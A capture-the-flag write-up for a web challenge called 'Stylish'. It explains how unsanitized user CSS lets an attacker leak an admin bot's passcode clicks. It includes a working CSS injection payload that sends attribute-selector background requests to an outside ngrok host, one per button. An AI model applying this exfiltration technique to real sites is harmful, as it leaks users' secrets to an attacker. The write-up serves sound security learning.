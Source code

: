 # Stylish

## Challenge description 
![img](Pasted_image_20210614000841.png)</br>
As we can see Stylish is the one of the hardest challenges at the website and it give us 400 points.
Organizers give us URL to website and server source code files.  


## Look at the website 
![img](Pasted_image_20210613000440.png)</br>
![img](Pasted_image_20210613000518.png)</br>
Ok so as we can see at website we have got 4 color inputs serialized with JSON and send by GET parameter. By clicking "Submit for review" button we can  send them to admin.    
But second important thing in our website is "Get flag" button.

![img](Pasted_image_20210613000448.png)</br>
 As we can see we need to know admin secret code to get the flag.

## Look at the source code 
#### passcode.js
```js
export default function generatePasscode() {
	const chars = ["0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "A", "B", "C", "D", "E", "F"];
	for (let i = 0; i < chars.length - 1; i++) {
		let temp = chars[i];
		let j = Math.floor(Math.random() * (chars.length - i)) + i;
		chars[i] = chars[j];
		chars[j] = temp;
	}
	return chars.join("");
}
```
Password is generated from 16 hexadecimal character in random order. 

#### server.js
```js
app.post("/submit", async (req, res) => {

 try {
	 const {bg, fg, bbg, bfg} = req.body;
	 if (typeof bg !== "string") return res.status(400).type("txt").send("bg must be a string");
	 if (typeof fg !== "string") return res.status(400).type("txt").send("fg must be a string");
	 if (typeof bbg !== "string") return res.status(400).type("txt").send("bbg must be a string");
	 if (typeof bfg !== "string") return res.status(400).type("txt").send("bfg must be a string");
	 const encoded = encodeURIComponent(JSON.stringify({ bg, fg, bbg, bfg }));
	 if (encoded.length > 2000) return res.status(400).type("txt").send("Theme permalink too long (>2000 chars)");

  

	 await visit('http://localhost:1337/#${encoded}', passcode);
	 res.type("txt");
	 res.send("The admin has checked out your theme!");
 } catch (e) {
	 console.error(e.stack);
	 res.sendStatus(500);
 }
});
```
#### visit.js
```js
 await page.goto(url, {waitUntil: "load", timeout: 1000});
 await page.click("#get-flag");
 await page.waitForSelector(".e");

 for (let i \= 0; i < passcode.length; i++) {
	const char \= passcode.charAt(i);
	const id \= "button" + Math.floor(Math.random() \* 123456);
	await page.evaluate(\`
		document.querySelectorAll(".e > button").forEach(button => {
			if (button.innerText === "${char}") {
				button.id = "${id}";
			}
		})
	`);
	await page.click(\`#${id}\`);
	await timeout(50);
 }
 await page.click(".s");
 await timeout(1000);
 ```
As we can see CSS sent by user isn't verified at all (except checking if it is string but it's not problem at all) so we can easily inject own CSS style.
After setting our CSS style admin sets id (always beginning at "button") to button which creates randomly generated passcode and click them.   


### Attack scenario
1. Send to admin CSS which will try to load background from website hosted on our PC. According on which button have been clicked it will be try to download file with button number. For example if clicked button will be "F" it will try to load img from www.my_website.com/F, if clicked button will be "4" it will try to download www.my_website.com/4.
2. Listen on server img requests.
3. Login for flag with obtained numbers.

### CSS payload
```css
red;}
button:nth-child(1)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/0")}
button:nth-child(2)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/1")}
button:nth-child(3)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/2")}
button:nth-child(4)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/3")}
button:nth-child(5)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/4")}
button:nth-child(6)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/5")}
button:nth-child(7)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/6")}
button:nth-child(8)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/7")}
button:nth-child(9)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/8")}
button:nth-child(10)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/9")}
button:nth-child(11)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/A")}
button:nth-child(12)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/B")}
button:nth-child(13)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/C")}
button:nth-child(14)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/D")}
button:nth-child(15)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/E")}
button:nth-child(16)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/F")}
```





### payload sent
![img](Pasted_image_20210612234737.png)</br>
Unfortunately my exploit doesn't catch one number (zero) so I had to brute force his position :(

![img](Pasted_image_20210613000604.png)</br>
After few minute we got the flag.
